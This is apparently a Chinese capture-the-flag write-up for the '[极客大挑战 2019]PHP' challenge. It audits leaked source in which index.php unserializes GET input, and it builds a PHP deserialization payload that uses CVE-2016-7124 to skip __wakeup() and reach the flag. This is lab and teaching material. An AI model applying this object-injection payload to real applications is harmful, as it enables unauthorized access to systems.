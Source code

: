 # [极客大挑战 2019]PHP

1. 提示网站存在备份，尝试扫描发现www.zip
2. 访问 */www.zip* 下载源代码

3. 目录结构

```
├── class.php
├── flag.php
├── index.js
├── index.php
└── style.css
```



4. 审计代码

*index.php* 主要代码

```php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```

class.php

```php
<?php
include 'flag.php';
error_reporting(0);

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
?>
```



5. 利用**CVE-2016-7124**漏洞绕过`__wakeup()`函数

   CVE-2016-7124：当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup()的执行。

   

6. 构造 payload

```php
<?php
include 'class.php';
$username = 'admin';
$password = '100';
$select = new Name($username, $password);

$res = serialize($select);
echo $res;
```

把`"Name":2`改为`"Name":3`

```
/index.php?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

get flag!